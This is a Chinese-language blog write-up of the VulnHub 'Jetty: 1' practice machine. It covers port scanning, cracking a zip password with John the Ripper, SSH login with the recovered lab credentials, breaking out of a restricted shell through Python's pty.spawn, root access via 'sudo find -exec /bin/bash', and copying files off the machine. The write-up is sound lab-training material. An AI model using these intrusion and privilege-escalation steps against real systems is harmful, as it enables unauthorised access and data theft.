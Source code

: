 ```yaml
---
layout:  post    # 使用的布局（不需要改）
title:   VulnHub-Jetty 1 靶场渗透测试   # 标题 
subtitle:    #副标题
date:  2021-01-27  # 时间
author:  yanmie    # 作者
header-img: img/.jpg ##标签这篇文章标题背景图片
catalog: true      # 是否归档
tags:        
    - Vulnhub



---
```


靶机信息：

- **Name**: Jetty: 1
- **Date release**: 9 Dec 2020
- **download:**  https://www.vulnhub.com/entry/jetty-1,621/
- **描述：** Aquarium Life SL公司已与您联系，对他们的其中一台机器进行笔测试。他们怀疑他们的一名雇员一直在欺诈售卖假票。他们希望您闯入他的计算机，提升特权并搜索任何证明这种行为的证据。
  - 可疑用户名是squiddie。
  - 他负责水族馆的门票销售。
  - 机器的想法不仅是获得root特权，而且还获得所有证据来证明用户正在欺诈。

## 一、信息收集

#### 1.1 主机发现

 ```bash
nmap -sP 192.168.56.1/24
 ```

![image-20210126172801126](img/image-20210126172801126.png)

#### 1.2 扫描端口

```bash
➜  ~ nmap -sT -T4 -sV -p- 192.168.56.105
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-26 17:28 CST
Nmap scan report for localhost (192.168.56.105)
Host is up (0.00088s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
65507/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
MAC Address: 08:00:27:02:95:F3 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.38 seconds
```

开放 21、80、65507 端口。

#### 1.3 端口服务信息收集

80 端口，打开网址只有一张图，扫描目录得到：

```
http://192.168.56.105/
```



![image-20210126174018670](img/image-20210126174018670.png)

访问 `robots.txt`

```txt
User-agent: *
Disallow: /dir/
Disallow: /passwords/
Disallow: /facebook_photos
Disallow: /admin/secret
```

访问但是 not found.

尝试 21 端口 ftp,

```
ftp://192.168.56.105/
```

![image-20210126174459360](img/image-20210126174459360.png)

README.TXT 内容：

```txt
Hi Henry, here you have your ssh's password. As you can see the file is encrypted with the default company's password. 
Please, once you have read this file, run the following command on your computer to close the FTP server on your side. 
IT IS VERY IMPORTANT!! CMD: service ftp stop. 

Regards, Michael.
```

下载压缩包有密码，kali爆破：

```bash
zip2john sshpass.zip >>password.txt
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt
Jetty john password.txt --show

# 成功得到密码  seahorse!
➜  Jetty john password.txt --show
sshpass.zip/sshpass.txt:seahorse!:sshpass.txt:sshpass.zip::sshpass.zip

1 password hash cracked, 0 left
```

解压`unzip` ，得到

```
Squ1d4r3Th3B3$t0fTh3W0rLd
```

ssh 密码得到，尝试用户 `Jetty`登录失败，回到最开始的 `squiddie` 尝试成功：

```bash
ssh squiddie@192.168.56.105 -p 65507
```

## 二、漏洞发现

ssh 连接靶机后，发现有很多命令被禁止，输入几次就会被强制退出 ssh 连接。

尝试bash谈一个 shell回来,失败了，收到了限制。

```bash
squiddie:~$ ?
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami
```

发现目标有 python 环境并且不受限制。

python一句话弹升级交互式也失败，但是在python交互界面成功：

```python
>>> import pty
>>> pty.spawn("/bin/bash")
```

或者

```python
>>> import pty
>>> pty.spawn("/bin/bash")
```

![image-20210126200328538](img/image-20210126200328538.png)

![image-20210126200447978](img/image-20210126200447978.png)

成功突破限制。

## 三、提权

直接 `sudo -l`

![image-20210126201744737](img/image-20210126201744737.png)

发现可以以 root 身份执行 find 命令.

**有时用户有权执行特定目录的任何文件或命令，如/bin/cp、/bin/cat或/usr/bin/find，这种类型的权限会导致root权限的权限提升。**

```
sudo find /home -exec /bin/bash \;
```

直接提权为 root .

完成小目标。但是描述说提权只是中等难度，拿到他的犯罪证据才是关键的。

## 四、取证

查看定时任务

![image-20210126202214746](img/image-20210126202214746.png)

发现有定时任务。

查看它：

```bash
root@jetty:~# cat /etc/cron.daily/backup 
#!/bin/sh

#BACKUP FILES EVERY TWO MINUTES
rsync -raz /root/Documents/.docs /var/backups/
chmod 700 /var/backups/.docs
```

![image-20210126210700528](img/image-20210126210700528.png)

目录下有很多表格，将其打包，然后开启 http服务(python2)

```bash
python -m SimpleHTTPServer 8000
```



![image-20210126210949592](img/image-20210126210949592.png)

kali中下载

![image-20210126211103094](img/image-20210126211103094.png)

成功下载，接下来解压

```bash
unzip doc.zip -d doc/
```

尝试打开文档，但是发现被加密了

![image-20210126211822248](img/image-20210126211822248.png)

在`Password_keeper` 文件夹下发现，有个exe 文件，还有`database.txt` ，`usage.txt` ,相关联，不能发现是 exe 对表格进行的加密。

![image-20210126212000317](img/image-20210126212000317.png)

base64解码是乱码。database.txt里面保存着密文，那么关键就是password_keeper.exe程序了。

![image-20210126212359537](img/image-20210126212359537.png)

运行软件发现， 1 功能可以查看密码，但是还需要密码验证。

https://www.cnblogs.com/backlion/p/10504003.html